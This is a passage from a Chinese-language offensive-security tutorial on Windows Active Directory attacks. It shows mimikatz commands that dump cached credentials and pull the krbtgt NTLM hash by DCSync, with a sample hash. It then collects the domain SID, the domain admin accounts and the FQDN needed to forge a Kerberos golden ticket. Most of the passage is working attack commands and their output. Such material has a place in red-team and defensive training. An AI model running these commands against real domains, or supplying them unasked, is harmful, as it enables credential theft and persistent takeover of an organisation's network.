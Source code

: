 **缓存提取用户密码凭证**

```batch
privilege::debug
lsadump::cache
#用于获取登录过的账户的信息，尤其在域环境中非常有用 
#目标数据包括 本地缓存的登录凭据， Windows 会话缓存中的用户名和密码哈希
```

```batch
klist # cmd 票证缓存
```

### 2.2. 黄金票据制作

所需参数：
- 域名：目标域的 FQDN
- SID：域的安全标识符，可以通过 `whoami /user` 或 AD 工具提取
- KRBTGT 哈希：KRBTGT 帐户的 NTLM 哈希，需从域控中提取
- 用户名：要伪造的用户（通常是管理员账户）

#### 2.2.1. 获取参数信息

##### 获取 krbtgt 哈希

```batch
mimikatz "privilege::debug" "lsadump::dcsync /domain:work.com /user:krbtgt" exit
# 239ad56d36d09131a3584cdc25761616
```

![image.png](https://img.ghostliner.top/KUkzzm.png)

##### 获取域控 SID

```batch
whoami /user #当前用户的SID
wmic useraccount get name,sid #系统所有用户的SID
# Administrator   S-1-5-21-3644623682-4019055222-2476599189-500
```

![image.png](https://img.ghostliner.top/jkR8Uw.png)

##### 要伪造的用户

```batch
# 查看域内管理员组成员
net group "domain admins" /domain
```

##### 域 FQDN

```batch
ipconfig /all
```

![image.png](https://img.ghostliner.top/yhDCUJ.png)
